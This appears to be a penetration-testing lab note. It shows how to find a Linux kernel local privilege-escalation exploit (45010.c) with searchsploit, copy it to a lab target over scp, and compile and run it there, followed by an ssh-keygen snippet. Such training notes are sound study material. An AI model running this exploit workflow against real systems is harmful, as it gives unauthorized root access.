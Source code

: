>[!code]- Search for an exploit
>Searchsploit can help. We want to use “linux kernel Ubuntu 16 Local Privilege Escalation” as our main keywords. We also want to filter out some clutter from the output, so we’ll exclude anything below kernel version 4.4.0 and anything that matches kernel version 4.8:
>```bash
>kali@kali:~$ searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation" | grep "4." | grep -v " < 4.4.0" | grep -v "4.8"
>```

>[!success] We choose a newer exploit _'linux/local/45010.c'_

>[!code]- Execute the exploit
>Inspect first 20 lines (to spot any compilation instructions):
>```bash
>kali@kali:~$ head 45010.c -n 20
>```
>
>____
>
>Copy it to target:
>```bash
>kali@kali:~$ scp 45010.c joe@192.168.123.216:
>```
>
>___
>
>Compile and then run it (using the compiler on the target machine to ensure it matches the architecture):
>```bash
>joe@ubuntu-privesc:~$ gcc 45010.c -o 45010
>joe@ubuntu-privesc:~$ ./45010
>
#### Miscellaneous

>[!code]- Generate SSH keys
>###### Non-interactive setup
>```powershell
># -t rsa  Specifies key type (can be rsa, ed25519, ecdsa, etc.)
># -b 4096  Specifies bit size for key
># -f ~/.ssh/id_rsa  Specifies the file path where private key will be saved
># -N ""  Sets an empty passphrase for private key
>
>ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
>```

